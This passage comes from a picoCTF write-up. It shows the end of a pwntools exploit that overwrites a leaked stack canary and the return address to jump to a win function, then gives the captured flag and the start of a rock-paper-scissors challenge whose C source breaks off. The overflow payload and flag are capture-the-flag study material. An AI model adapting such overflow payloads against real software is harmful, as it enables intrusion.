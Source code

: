 ```py
io.sendlineafter(b'> ', b'-1')

io.recvuntil(b'Input> ')

# Build payload (return to win)
payload = flat([
    offset * b'A',  # Pad to canary (64)
    canry,  # Our leaked canary (4)
    16 * b'A',  # Pad to Ret pointer (8)
    elf.symbols.win  # Jmp to win function
])

# Send the payload
io.sendline(payload)

# Get Flag
print(io.recv())

io.interactive()
```

Flag:
```
picoCTF{Stat1C_c4n4r13s_4R3_b4D_f9792127}
```

# RPS
## Description
Here's a program that plays rock, paper, scissors against you. I hear something good happens if you win 5 times in a row.

This challenge provided a C source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>
#include <time.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/types.h>


#define WAIT 60



static const char* flag = "[REDACTED]";

char* hands[3] = {"rock", "paper", "scissors"};
char* loses[3] = {"paper", "scissors", "rock"};
int wins = 0;



int tgetinput(char *input, unsigned int l)
{
    fd_set          input_set;
    struct timeval  timeout;
    int             ready_for_reading = 0;
    int             read_bytes = 0;

```